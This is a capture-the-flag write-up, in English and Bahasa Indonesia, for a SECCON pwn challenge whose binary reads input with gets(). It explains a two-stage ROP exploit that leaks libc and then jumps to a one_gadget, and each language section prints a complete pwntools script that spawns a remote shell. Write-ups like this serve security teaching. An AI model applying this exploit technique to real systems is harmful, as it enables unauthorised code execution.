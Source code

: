 # Classic Pwn
---
**Points:** 121 | **Solves:** 197/653 | **Category:** Pwn

Host: classic.pwn.seccon.jp
Port: 17354

[Download](classic_aa9e979fd5c597526ef30c003bffee474b314e22)
[Download](libc-2.23.so_56d992a0342a67a887b8dcaae381d2cc51205253)

---

[Bahasa Indonesia](#bahasa-indonesia)

## English
A classic binary exploitation challenge. 
```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

Below is the main function.
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [rsp+0h] [rbp-40h]

  puts("Classic Pwnable Challenge");
  printf("Local Buffer >> ", argv);
  gets(&v4);
  puts("Have a nice pwn!!");
  return 0;
}
```

The program calls gets without canary.
Spawn shell by ROP overwriting return-address (rbp+0x8) to leak-libc -> back-to-main.
On the second gets, call one_gadget.
```
1st gets: pop rdi -> puts GOT/PLT -> function puts -> main
2nd gets: one_gadget
``` 

Below is the script.
```python
from pwn import *

one = [0x45216, 0x4526a, 0xf02a4, 0xf1147]

r = remote('classic.pwn.seccon.jp', 17354)
libc = ELF('./libc-2.23.so_56d992a0342a67a887b8dcaae381d2cc51205253')

r.sendline('a' * 0x48 + p64(0x00400753) + p64(0x601018) + p64(0x400520) + p64(0x4006A9))
r.recvuntil('Local Buffer >> Have a nice pwn!!\n')

libc_base = u64(r.recvline().strip() + '\x00\x00') - libc.symbols.puts
print hex(libc_base)

r.sendline('a' * 0x48 + p64(libc_base+one[0]))
r.interactive()
```

## Bahasa Indonesia
Soal klasik binary exploitation.
```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

Berikut main function.
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [rsp+0h] [rbp-40h]

  puts("Classic Pwnable Challenge");
  printf("Local Buffer >> ", argv);
  gets(&v4);
  puts("Have a nice pwn!!");
  return 0;
}
```

Program memanggil gets tanpa canary.
Spawn shell dengan ROP menimpa return address (rbp+0x8) dengan leak-libc -> balik-ke-main.
Pada gets kedua, panggil one_gadget.
```
1st gets: pop rdi -> puts GOT/PLT -> function puts -> main
2nd gets: one_gadget
``` 

Berikut script yang digunakan.
```python
from pwn import *

one = [0x45216, 0x4526a, 0xf02a4, 0xf1147]

r = remote('classic.pwn.seccon.jp', 17354)
libc = ELF('./libc-2.23.so_56d992a0342a67a887b8dcaae381d2cc51205253')

r.sendline('a' * 0x48 + p64(0x00400753) + p64(0x601018) + p64(0x400520) + p64(0x4006A9))
r.recvuntil('Local Buffer >> Have a nice pwn!!\n')

libc_base = u64(r.recvline().strip() + '\x00\x00') - libc.symbols.puts
print hex(libc_base)

r.sendline('a' * 0x48 + p64(libc_base+one[0]))
r.interactive()
```